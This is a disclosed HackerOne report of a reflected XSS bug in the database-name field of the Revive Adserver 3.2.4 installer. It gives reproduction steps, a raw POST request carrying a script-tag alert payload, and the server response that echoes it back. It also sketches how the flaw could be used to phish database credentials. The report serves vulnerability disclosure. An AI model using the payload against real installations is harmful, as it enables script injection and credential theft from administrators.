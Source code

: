 # Reflected XSS in Step 2 of the Installation

## Report Details
- **Report ID**: 170156
- **URL**: https://hackerone.com/reports/170156
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-09-18T05:04:27.335Z
- **Disclosed**: 2017-08-02T05:59:06.669Z

## Reporter
- **Username**: pavanw3b
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: revive_adserver

## Vulnerability Information
**"Cricetinae"** :)

### Short Description
The **dbName** parameter in Step 2 of Installation Wizard is vulnerable to Cross-Site Scripting vulnerability when the form is returned with error.

### Vulnerability Details
Cross-Site Scripting issue let's one to run a javascript of choice. It helps most of the client side risks including but not limited to phishing, temporary deface, browser key-logger and others. Exploitation frameworks like BeEF eases the offensive attack.

### Attack Vector
Though this may be treated as a Self-XSS, the place where the issue is affecting is sensitive. If the user who is going to set up the Revive Adserver, follows an untrusted malicious guide which contains specially crafted XSS payload, can help in gaining access to the database by tricking him to enter the credential in attacker's site by redirecting or any other way.
	
### Dependency
1. Occurs at the time of installation when the Database Name contains invalid characters.
2. Chrome's default XSS Protection blocks simple XSS payloads. Please use firefox for reproduction.

### Steps to Reproduce
1. Navigate to Installation
2. Agree to the terms and condition in the first step
3. In the second step, please enter  `something<script>alert('xss');</script>` for Database Name field
4. Note the javascript alert box triggered from the above payload entered in dbName parameter

### HTTP Request
`POST /revive-adserver/www/admin/install.php HTTP/1.1
..
..
Connection: close`

`_qf__install-db-form=&action=database&moreFieldsShown=&dbName=something<script>alert('xss');</script>&dbUser=root&dbPassword=roots&dbHost=localhost&dbType=mysql&dbLocal=0&dbPort=3306&dbTableType=MYISAM&dbTablePrefix=rv_&save=Continue+%C2%BB`
`

###HTTP Response
`HTTP/1.1 200 OK
`
..
`<span id='errorMessages'>
                          Database names cannot contain "/", "\", ".", or characters that are not allowed in filenames <br/>                          Installation failed to create the database something<script>alert('xss');</script></span>`
        
###Test Environment Details
**Version**: Latest as on Sept 17: revive-adserver-3.2.4 downloaded from official website
**Setup type**: local
**Browser**: Firefox 47.0
**OS**: Mac OS X

Cheers,
Pavan

## Attachments
- revive_adserver_xss.png

